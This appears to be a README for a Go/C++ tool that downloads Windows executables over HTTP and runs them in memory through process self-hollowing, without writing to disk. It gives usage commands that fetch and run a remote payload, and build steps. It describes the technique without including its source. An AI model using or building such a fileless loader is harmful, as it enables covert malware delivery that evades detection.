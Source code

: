 # go http memexec

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk.

## Features

- **Zero Disk I/O**: Downloads executables directly to memory using go net/http and never writes them to disk
- **Process Self-Hollowing**: Replaces the current process with the downloaded payload
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **Simple API**: Single command to download and execute payloads

## How It Works

go http memexec uses a sophisticated process self-hollowing technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Maps the PE file into memory with proper section permissions
3. Resolves imports and fixes relocations
4. Executes the payload by jumping to its entry point
5. The original process is replaced by the payload without writing any files to disk

## Usage

```bash
# Basic usage with default URL
./go-http-memexec

# Specify a custom download URL
./go-http-memexec https://example.com/payload.exe
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution

## Technical Details

The project combines Go for high-level coordination with C++ for low-level Windows API interaction:

- Uses golang's net/http to stream downloads directly to memory
- Implements PE parsing, import resolution, and relocation in native code
- Properly handles TLS callbacks and memory protection
- Updates the PEB to maintain process coherence after hollowing

## Build Instructions

```bash
# Build everything at once if you trust me :)
./build-all.sh

# if you don't, manual build process
# 1. Build the C++ library
cd cpp
gcc -c selfhollow.cpp relocate.cpp -I.
ar rcs librunpe.a selfhollow.o relocate.o

# 2. Build the Go executable
go mod tidy
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- GCC or compatible C++ compiler
- Go 1.16 or later

## Notes
- THIS ONLY WORKS FOR PAYLOADS LESS THAN OR EQUAL TO (leaning towards less than) THE TARGET BINARY SIZE (go-http-memexec is 5.626mb)
- I have only tested this on Windows 10
- I have only tested on statically linked Go and Rust binaries

## License

[![License: BSD-3-Clause](https://img.shields.io/badge/License-BSD--3--Clause-blue.svg)](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations. 
